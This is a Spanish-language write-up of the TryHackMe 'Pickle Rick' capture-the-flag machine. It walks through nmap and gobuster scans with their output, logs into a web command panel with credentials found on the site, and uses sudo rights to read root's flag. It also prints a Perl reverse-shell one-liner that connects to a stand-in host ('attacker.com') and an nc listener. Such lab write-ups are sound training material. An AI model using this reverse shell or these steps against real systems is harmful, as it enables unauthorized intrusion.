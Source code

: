 ```yaml
---
title: TryHackMe Pickle Rick Writeup
published: true
---
```


La máquina Pickle Rick, ambientada en Rick y Morty es una máquina de TryHackMe en la que mediante la explotación de un servidor web conseguimos los tres ingredientes (flags) que nos hacen falta para la resolución de la misma.


# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar los puertos abiertos:

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
❯ nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.17.209 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 12:24 EDT
Initiating Connect Scan at 12:24
Scanning 10.10.17.209 [65535 ports]
Discovered open port 22/tcp on 10.10.17.209
Discovered open port 80/tcp on 10.10.17.209
Completed Connect Scan at 12:24, 14.03s elapsed (65535 total ports)
Nmap scan report for 10.10.17.209
Host is up, received user-set (0.073s latency).
Scanned at 2022-10-11 12:24:09 EDT for 14s
Not shown: 62896 closed tcp ports (conn-refused), 2637 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.09 seconds
```

El escaneo nos reporta dos puertos abiertos, el 22 y el 80, así como el servicio que corre en cada uno de ellos.

Debido a que el puerto 80 está abierto, entramos en la web con la $IP-VICTIMA. En ella no observamos mucha información por lo que inspeccionamos el código de esta.

Tras una breve búsqueda hayamos un usuario.

```bash
Note to self, remember username!

Username: R**kR**s
```

Por otro lado, podemos usar algún buscador de directorios como pueden ser gobuster, dirsearch u otro. En mi caso utilizaré gobuster. Para ello:

```bash
gobuster dir -u http://$IP-VICTIMA -w /usr/share/wordlists/dirbuster/directoy-list1.0.txt
```

Buscamos los directorios de la $IP-VICTIMA usando el archivo de lista de palabras directory-list1.0.txt

En este punto podríamos usar cualquier lista de palabras.

```bash 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.17.209/
[+] Method:                  GET
[+] Threads:                 25
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/10/11 12:42:09 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd.txt        (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 300]
/.htpasswd.html       (Status: 403) [Size: 301]
/.hta                 (Status: 403) [Size: 291]
/.htaccess.php        (Status: 403) [Size: 300]
/.hta.php             (Status: 403) [Size: 295]
/.htaccess.html       (Status: 403) [Size: 301]
/.htaccess.txt        (Status: 403) [Size: 300]
/.hta.html            (Status: 403) [Size: 296]
/.hta.txt             (Status: 403) [Size: 295]
/a*****               (Status: 301) [Size: 313] [--> http://10.10.17.209/a*****/]
/denied.php           (Status: 302) [Size: 0] [--> /l****.php]                   
/index.html           (Status: 200) [Size: 1062]                                 
/index.html           (Status: 200) [Size: 1062]                                 
/l****.php            (Status: 200) [Size: 882]                                  
/portal.php           (Status: 302) [Size: 0] [--> /l****.php]                   
/r*****.txt           (Status: 200) [Size: 17]                                   
/r*****.txt           (Status: 200) [Size: 17]                                   
/server-status        (Status: 403) [Size: 300]                                  
                                                                                 
===============================================================
2022/10/11 12:42:46 Finished
===============================================================
```

Tras el análisis entramos en http://$IP-VICTIMA/a----- pero no vemos nada interesante por lo que entramos en http://$IP-VICTIMA/r-----.txt y hayamos una cadena de texto que podría ser la conraseña del usuario antes hayado:

```bash
Wub*al*bb*du*dub
```

Otro de los directorios que hemos encontrado con gobuster nos proporciona una página de login. En ella probamos el usuario y contraseña que hemos adquirido y entramos!

Aparece una sección en la que podemos ajecutyar comandos. Intentamos listar el contenido con ls y aparece "Sup3rS3cretPickl3Ingred.txt". Intentamos abrirlo con cat pero no nos deja por lo que probamos otro comando como less. Encontramos así el primer ingrediente.

```bash
less Sup3rS3cretPickl3Ingred.txt
```

Seguimos investigando mediante comandos de navegacion. Con pwd vemos donde nos encontramos y llegamos a ver que dentro del usuario rick (podemos verlo mediante ls ../../../home/rick) se haya el segundo ingrediente pero no podemos abrirlo de ningún modo.

# []($header-1)Escalada de privilegios

Ahora debemos obtener una reverse shell. Intentamos realizar una bash reverse shell pero no funciona por lo que lo intento con perl. Entramos en <a href="https://gtfobins.github.io/">GTFOBins</a> para poder buscar la reverse shell con perl. 

Desde la máquina atacante nos ponemos en escucha por el puerto 444 con nc:

```bash
nc -lnvp 4444
```

Por otro lado, desde la máquina víctima introducimos la perl reverse shell:

```bash
export RHOST=attacker.com
export RPORT=12345
perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Obtenemos así la reverse shell y podemos ejecutar comandos desde la máquina atacante.

Abrimos el archivo "second ingredients" y obtenemos el segundo ingrediente.

```bash
cat 'second ingredients'
```

Con sudo -l podemos observar los permisos que tiene el usuario Rick a la hora de ejecutar comandos. En este caso podemos realizar todos los comandos como sudo por lo que listamos lo que hay en el usuario root mediante:

```bash
sudo ls /root/ y vemos un archivo txt
```

Lo abrimos y obtenemos el último ingrediente!

```bash
sudo cat /root/3rd.txt
```

Muchas gracias por leer este writeup, espero que te haya gustado!
